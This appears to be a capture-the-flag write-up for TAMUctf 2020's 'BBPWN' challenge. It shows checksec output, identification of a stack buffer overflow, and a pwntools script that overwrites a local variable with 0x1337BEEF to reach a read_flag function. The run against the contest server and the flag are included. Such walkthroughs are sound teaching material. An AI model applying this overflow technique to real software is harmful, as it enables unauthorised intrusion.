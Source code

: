 
# BBPWN
Binary Explotation, 50 points

## Description
> Welcome to pwnland! 
> [bbpwn](https://tamuctf.com/files/dca18c2059db76506b4f40666a163f9c/bbpwn)

We'll check the binary protections, using `checksec`.

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE$ checksec bbpwn
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE/bbpwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Hm, looks like he has all of his protections enabled, lets run the binary and see what were dealing with

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE$ ./bbpwn 
Enter a string: bloop

The string "bloop" is lame.
```

Were prompt with an input to enter a string, after that its being printed, could it be `format string`?
Lets reverse the binary and take a look at the assembly

![](images/image001.png)


## Vulnerability

The vulnerability is *stack buffer overflow* 

![](images/image002.png)

## Solution

We got a bof, but looks like the program compares a variable to `0x1337BEEF` and if its equal it jumps to the `read_flag` function, thats what we want!

So, we want to overflow the buffer in order to write `0x1337BEEF` to `var_10`, lets take a look at the diffrence on the stack

![](images/image003.png)

Our string is `s` which it at -30h, The variable we intend to overwrite is at -10h.
The diffrence is 0x20, Lets try trigger the vulnerabilty

```python
from pwn import *
import sys

context.clear(os='linux')

__author__ = 'yuvaly0'

argv = sys.argv
binary_path = './bbpwn'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('challenges.tamuctf.com', 4252)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main+103
		''')

e = ELF(binary_path)

# ------------- plan -----------
# overwrite variable using bof

overflow_offset = 32
value_we_want = 0x1337BEEF

payload = fit({
	overflow_offset: value_we_want
	})

sh.sendlineafter('Enter a string: ', payload)

print sh.recvline()
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4252: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/BBPWN_DONE/bbpwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Congratulations. Your string is not lame. Here you go: gigem{0per4tion_skuld_74757474757275}
```

Flag: gigem{0per4tion_skuld_74757474757275}
